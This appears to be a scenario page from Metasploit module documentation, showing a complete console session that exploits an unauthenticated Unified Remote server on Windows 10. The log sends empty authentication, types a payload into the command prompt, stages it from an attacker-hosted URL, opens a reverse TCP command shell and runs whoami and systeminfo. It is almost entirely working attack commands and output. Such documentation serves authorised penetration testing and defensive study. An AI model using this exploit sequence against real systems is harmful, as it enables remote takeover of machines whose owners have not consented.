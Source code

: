 ### Version 3.11.0.2483 on Windows 10, No authentication, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-s5IbpVuRf1MJzqRs
[*] 2.2.2.2:9512 - Retrieving server config
[+] 2.2.2.2:9512 - No security enabled
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59233) at 2022-09-08 16:47:20 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\jhy5cTqRs.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```
